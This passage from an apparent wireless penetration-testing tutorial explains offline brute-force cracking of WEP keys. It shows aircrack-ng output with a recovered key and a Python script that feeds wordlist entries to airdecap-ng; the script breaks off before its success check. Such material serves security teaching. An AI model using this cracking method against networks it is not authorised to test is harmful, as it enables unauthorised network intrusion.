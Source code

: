 ```shell
   10    1/  1   01(   0) 02(   0) 03(   0) 04(   0) 05(   0) 06(   0) 07(   0) 08(   0)

             KEY FOUND! [ AB:C7:7F:3A:03:D0:AF:DA:F6:8D:A5:E2:C7 ]
	Decrypted correctly: 100%

```

* * *

### Bruteforce WEP cracking

When attempting to crack WEP encryption, attackers typically gather enough encrypted packets using tools like `airodump-ng` and then use `aircrack-ng` to successfully decipher the key. However, there are situations where the available packet count isn't sufficient for online cracking. In such cases, the attacker may switch to an offline approach, using `dictionary` or `brute-force` methods to try and break the key.

![image](dzY8QRbZDZZ7.jpg)

As shown in the above screenshot, we have captured a small amount of data using `airodump-ng`, which is not enough to generate sufficient IVs for cracking WEP encryption. To perform a brute-force attack, we can attempt to decrypt the packet using `airdecap-ng` with each password from the list. If a packet is successfully decrypted, it indicates that we have found the correct WEP key.

We can write a Python script that converts each 5-character password from the password list into its hexadecimal equivalent and then uses a loop to test each one with `airdecap-ng` to check if it successfully decrypts the traffic.

```python
import sys
import binascii
import re
from subprocess import Popen, PIPE
import time

# Start timer
start_time = time.time()

# File paths
cap_file = '/opt/WEP-01.cap'
wordlist_path = '/opt/1000000-password-seclists.txt'
wordlist = []

# Read wordlist file to a list
with open(wordlist_path, 'r') as f:
    wordlist = f.readlines()

# Iterate over the wordlist
for ln, word in enumerate(wordlist, start=1):
    # Clean the line to remove non-alphanumeric characters
    key = re.sub(r'\W+', '', word)

    # Filter wordlist to only keep 5-character long words
    if len(key) != 5 :
        continue

    # Encode the WEP key to bytes and convert to hexadecimal
    hex_key = binascii.hexlify(key.encode('utf-8'))

    # Print the current attempt
    print(f"{ln}: Trying Key: {key} Hex: {hex_key}")

    # Run airdecap-ng with the current WEP key
    p = Popen(['/usr/bin/airdecap-ng', '-w', hex_key, cap_file], stdout=PIPE)
    output = p.stdout.read().decode("utf-8")
```